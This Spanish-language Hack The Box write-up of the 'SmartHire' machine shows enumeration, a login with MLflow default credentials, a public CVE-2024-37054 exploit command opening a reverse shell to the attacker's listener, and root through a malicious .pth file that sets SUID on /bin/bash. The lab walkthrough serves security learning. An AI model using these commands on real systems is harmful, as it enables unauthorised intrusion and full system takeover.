





+++
title = "HackTheBox - SmartHire"
draft = false
description = "Resolución de la máquina SmartHire"
summary = "OS: Linux | Dificultad: Medium | Conceptos: Subdominio, Machine Learning, Python Privesc, .pth"
tags = ["HTB", "Linux", "Medium", "pth", "Python", "Autorun", "Sudo", "ML", "CSV", "Default Credentials", "CVE", "Subdominio"]
categories = ["Writeups"]
showToc = true
date = "2026-05-28T00:00:00"
showRelated = true
+++

* Dificultad: `medium`
* Tiempo aprox. `6h`
* **Datos Iniciales**: `10.129.245.215`

### Nmap Scan y enumeración
```bash {hl_lines=[7,11]}
$ sudo nmap -sT -Pn -p- 10.129.245.215 # Devuelve puertos 22,80
$ sudo nmap -sT -Pn -sVC 10.129.245.215 -p22,80 # Indica "Did not follow redirect to http://smarthire.htb/"
# Añadimos smarthire.htb a /etc/hosts

$ sudo nmap -sT -Pn -sVC -p22,80 smarthire.htb
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 41:3c:e3:bb:88:70:99:7f:b8:96:59:48:9b:85:98:69 (ECDSA)
|_  256 d5:9d:fd:6b:be:d8:39:6f:3f:43:ab:0e:f6:3e:22:db (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Overview | SmartHIRE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
# Nada en UDP (Solo DHCP filtrado)
```

Tenemos 2 servicios:
- `22/tcp (OpenSSH 8.9p1)`: Vulnerable a CVE-2024-6387 (RegreSSHion), difícilmente explotable, lo consideramos no vulnerable.
- `80/tcp (nginx 1.18.0)`: Vulnerable a CVE-2021-23017, buffer overflow. Hay exploits disponibles pero la mayoría solo funcionan en redes LAN, así que tampoco podemos explotarla.

Además, como nmap nos ha indicado que el servidor respondía `"Did not follow redirect to http://smarthire.htb/"`, probamos a enumerar subdominios:

```bash
$ gobuster vhost --url http://smarthire.htb -w /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt -ad

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
models.smarthire.htb Status: 401 [Size: 137]
```
Y tenemos otro subdominio para luego: `models.smarthire.htb`.


## Puerto 80, HTTP
De momento, entramos al dominio principal a ver qué hay. Esto es lo que encontramos:



Si vamos mirando la página principal (más allá de los botones superiores), vemos que no hay nada relevante, pero podemos sacar algo de información de lo que pretende ser el servidor:

> *SmartHire is an AI first hiring platform that uses Machine Learning. We help you hire.*

Y los botones que realmente podemos pulsar y hacen algo son los que nos llevan a las siguientes páginas:
- **Get Started**: `/register`
- **Sign in**: `/login`

No hay mucho más, así que probamos con esto y si no luego enumeramos archivos y directorios. Creamos una cuenta con las credenciales `username`:`password`, y luego iniciamos sesión.

Al entrar, encontramos el siguiente panel:



Se trata de una herramienta que nos permite subir currículums de trabajadores que consideraríamos ideales en formato CSV, luego, un modelo de ML analiza los datos y busca patrones. 

Después, en teoría, podríamos subir un currículum que nos llegase de alguien buscando empleo y el modelo podría ponerle una calificación automáticamente en función de lo que le hemos enseñado al modelo que buscamos.

La página proporciona un ejemplo de CSV, podríamos usarlo como primer archivo para ver cómo funciona:
```csv
name,skills,experience,education,position_applied,previous_company
John Smith,"Python, Machine Learning, SQL",60,Master's in CS,Data Scientist,TechCorp
Sarah Johnson,"JavaScript, React, Node.js",36,Bachelor's in SE,Full Stack Dev,StartupXYZ
Mike Brown,"Java, Spring Boot, PostgreSQL",84,Bachelor's in IT,Backend Developer,Enterprise Inc
```

### Fingerprinting
#### Model Info
Si abrimos BurpSuite y antes de mandar nada echamos un vistazo, veremos que también hay un endpoint `/model_info` que se solicita inmediatamente después de mandar un GET a `/dashboard`.

Si probamos a solicitarla desde curl:
```bash
$ curl http://smarthire.htb/model_info --cookie 'session=.eJyrVkrO...'
{"model_info":null,"model_name":"company-758150555d63-model","status":"success"}
```
Como no hay mucho que podamos hacer con esto, y no permite ningún modo HTTP interesante, volvemos a por `/dashboard` y los CSV.

#### Archivos CSV - Training
Probamos a subir el archivo de prueba y miramos la respuesta con BurpSuite. Si lo enviamos, no recibimos nada hasta pasados unos segundos, cuando llega lo siguiente:

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 28 May 2026 16:55:47 GMT
Content-Type: application/json
Content-Length: 240
Connection: keep-alive
Vary: Cookie

{
    "message":"Model trained and registered successfully",
    "model_deleted":false,
    "model_info":{
        "creation_timestamp":1779987346385,
        "description":"No description",
        "version":"1"
    },
    "registered_model":"company-758150555d63-model",
    "status":"success"
}
```

#### Archivos CSV - Clasificación
Una vez hemos subido el archivo de entrenamiento, podemos subir el mismo archivo como potencial currículum, para ver cuál es el output:



Vemos que se obtiene un 100/100. Si volvemos a subirlo, por probar, volvemos a obtener lo mismo.

Si ahora subimos otro diferente o el mismo pero bastante modificado, obtenemos esto:



Así que vemos que realmente los datos con los que hemos entrenado al modelo tienen un impacto, no se elige la calificación al azar. Además, como la calificación es una puntuación del 0 al 100, es posible que se use algún tipo de regresión lineal en función de las coincidencias del texto del currículum con el del entrenamiento.

De momento no sabemos qué servicio hay corriendo por detrás haciendo que esto funcione, pero podemos ir al subdominio a ver qué información nos da.

### Subdominio models
Nada más entrar, nos pide usuario y contraseña por login HTTP estándar. Pruebo a introducir las credenciales del dominio principal: `username`:`password`, pero nada, aunque, por suerte, el hecho de fallar el login nos dice lo siguiente:

> *You are not authenticated. Please see https://www.mlflow.org/docs/latest/auth/index.html#authenticating-to-mlflow on how to authenticate.*

Y ahora ya sabemos qué hay por detrás, **MLflow**. Según Google:

> *MLflow es una plataforma de código abierto diseñada para gestionar todo el ciclo de vida del aprendizaje automático (ML) y la IA generativa.*

Además, la estructura de las respuestas HTTP/JSON también coincide con la que se muestra en la documentación de MLflow, así que está prácticamente confirmado.

### MLFlow
Ahora que sabemos qué servicio se usa, hay que comprobar varias cosas.

Probamos las credenciales por defecto para el basic_auth:
- `admin`:`password`
- `admin`:`password1234`

Y al probar con la primera combinación:



Vemos que se usa la versión `mlflow 2.14.1`. Si buscamos potenciales vulnerabilidades:

> *MLflow versions up to 2.14.1 are affected by a critical Remote Code Execution (RCE) vulnerability via unsafe Python pickle deserialization (tracked as [**CVE-2024-37054**](https://nvd.nist.gov/vuln/detail/CVE-2024-37054)). This allows unauthenticated attackers who can access the MLflow artifacts REST API to execute arbitrary OS commands.*

Podemos usar un [exploit público](https://github.com/ben-slates/CVE-2024-37054) disponible:

```bash
$ python3 poc.py --mlflow-creds admin:password --app-username username --app-password password --app-login-url http://smarthire.htb/login --upload-url http://smarthire.htb/upload_hiring_data --predict-url http://smarthire.htb/predict http://smarthire.htb http://models.smarthire.htb 10.10.16.82 4445

[*] Target: http://smarthire.htb
[*] MLflow: http://models.smarthire.htb
[*] Listener: 10.10.16.82:4445
[*] Payload: Python reverse shell

...[SNIP]...

[+] Exploit completed!
[*] If shell didn't connect, try: nc -lvnp 4445
```

Y desde el listener:
```bash
$ penelope -i 10.10.16.82 -p 4445
[+] Listening for reverse shells on 10.10.16.82:4445 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from smarthire~10.129.245.215-Linux-x86_64 😍️ Assigned SessionID <1>
[+] Attempting to deploy Python Agent...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 


svcweb@smarthire:/var/www/smarthire.htb$
```

## Privesc
Al entrar, enumeramos varias cosas interesantes:


```bash
# PRIVILEGIOS SUDO
Matching Defaults entries for svcweb on smarthire:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User svcweb may run the following commands on smarthire:
    (root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
```

```bash
# DIRECTORIOS INTERESANTES
/var/www/smarthire.htb/smarthire.db
/opt/mlflow/app
```

```bash
# PUERTOS EN LOCAL
$ netstat -tunlp | grep 127.0.0.1
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      1022/python3        
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:41463         0.0.0.0:*               LISTEN      -
```

Echamos un vistazo primero, para poder descartarlos, a los puertos en localhost.

### Puertos locales
Hacemos port forwarding de los puertos y miramos qué tienen, aunque ya sabemos que el 5000 es el Tracking URI de MLFlow:

```bash
$ env
...
MLFLOW_TRACKING_URI=http://127.0.0.1:5000
...
```

De todas formas, entramos en cada uno de ellos:
- `localhost:8000`: Es la página web del dominio inicial (SmartHIRE), también hosteada en local
- `localhost:5000`: Es la página de MLflow. Exactamente la misma que la del subdominio.
- `localhost:41463`: Sirve HTTP, pero devuelve 404 Not Found.

De momento vamos a por lo siguiente.

### Sudo, Archivo .py
El archivo que podemos ejecutar como root es `/opt/tools/mlflow_ctl/mlflowctl.py`:

```mlflowctl.py
#!/usr/bin/env python3
"""
MLFLOW-CTL: Operational interface for managing the MLflow service.
Supports a pluggable extension model for environment-specific logic.
For changes or plugin requests, please contact the Platform Team.
"""

from pathlib import Path
import sys
import site

BASE_DIR = Path(__file__).resolve().parent
PLUGINS_DIR = BASE_DIR / "plugins"

# make plugins importable
for path in PLUGINS_DIR.iterdir():
    if path.is_dir():
        site.addsitedir(str(path))

def print_usage():
    print("Usage: mlflowctl.py [status|backup-models|restart]")
    sys.exit(1)

def main():
    import mlflow_actions, backup_models

    if len(sys.argv) < 2:
        print_usage()

    action = sys.argv[1]

    if action == "status":
        mlflow_actions.check_status()
    elif action == "backup-models":
        print("[*] Running backup via backup_models plugin...")
        backup_models.run()
    elif action == "restart":
        mlflow_actions.restart()
    else:
        print(f"[!] Unknown action: {action}")
        print_usage()

if __name__ == "__main__": main()
```

El programa toma los argumentos que se le pasan y los interpreta como la acción a realizar:
```bash
mlflowctl.py <acción>
```
Esa acción puede ser:
- `status`: Depende de la librería `mlflow_actions`
- `backup-models`: Depende de la librería `backup_models`
- `restart`: Depende de la librería `mlflow_actions`

Estas librerías están el directorio `plugins/core`, para el que no tenemos permiso de escritura, como archivos `.py`, pero el programa también acepta el directorio `plugins/dev` como válido al importar los plugins, y ahí el grupo `devs` sí tiene permiso de escritura.

Si miramos nuestros grupos:
```bash
$ id
uid=1000(svcweb) gid=1000(svcweb) groups=1000(svcweb),1001(mlflowweb),1002(devs)
```

### Library Hijacking
Efectivamente podemos escribir en `devs`. Podemos crear un `backup_models.py` o `mlflow_actions.py` malicioso y si el programa lo carga antes que el bueno al iniciar, podremos ejecutar lo que queramos.

Creamos dos librerías falsas que hacen lo mismo:
```bash
svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ ls
backup_models.py  mlflow_actions.py
svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ cat backup_models.py 
#!/usr/bin/env python3
import os

status = os.system('chmod +s /bin/bash')

if (status == 0):
	print("Pwned!")
else:
	print("Ha ocurrido un error.")
```

Pero si probamos a ejecutarlo:
```bash
svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py backup-models
[*] Running backup via backup_models plugin...
Backup successful: /var/backups/mlflow-backup/mlruns_backup_20260528185104.tar.gz

svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py status
[*] Checking MLflow service status...

[+] MLflow service status: active
[+] MLflow container status: 'Up 3 hours'
```
Ni siquiera se llega a nuestro código, se importan antes los otros, así que hay que buscar una alternativa.

### Python Startup Hooks: .pth
Tras buscar un rato y mirar qué hacían las librerías importadas, encuentro lo siguiente acerca de `site.addsitedir()`:

> *site.addsitedir(sitedir) es una función del módulo integrado site de Python que añade un directorio a sys.path (la ruta de búsqueda de módulos) y, además, **procesa todos los archivos .pth encontrados en ese directorio.***

Dichos archivos `.pth` son archivos de texto usados para inicializar el sys.path de Python (el segundo sitio en el que busca librerías cuando usas `import <lib>`)

Normalmente, un `.pth` puede tener la siguiente estructura:
```bash
/usr/mi-proyecto/lib
import mi_lib_custom
/home/user/package_lib
```
Esto añadiría `/usr/mi-proyecto/lib` al sys.path, luego ejecutaría `import mi_lib_custom`, y finalmente añadiría también `/home/user/package_lib` .

La cosa es que también es posible hacer esto:
```bash
/usr/mi-proyecto/lib
import mi_lib_custom; print("Hello")
/home/user/package_lib
```
Y se mostrará "Hello" en pantalla, podemos ejecutar cualquier comando.

Si creamos un archivo `pwn.pth` en `plugins/dev`, cuando `site.addsitedir()` entre en ese directorio para ver qué librerías hay o si hay algo para añadir, verá el .pth y lo ejecutará.

Así que creamos el archivo.
```bash
svcweb@smarthire:/opt/tools/mlflow_ctl$ cat plugins/dev/pwn.pth 
import os; os.system("chmod +s /bin/bash")
```

Lo ejecutamos.
```bash
svcweb@smarthire:/opt/tools/mlflow_ctl$ sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py status
[*] Checking MLflow service status...

[+] MLflow service status: active
[+] MLflow container status: 'Up 4 hours'
```

Miramos si ha tenido efecto.
```bash
svcweb@smarthire:/opt/tools/mlflow_ctl$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
svcweb@smarthire:/opt/tools/mlflow_ctl$ /bin/bash -p
bash-5.1# whoami
root
```

Y tenemos root.
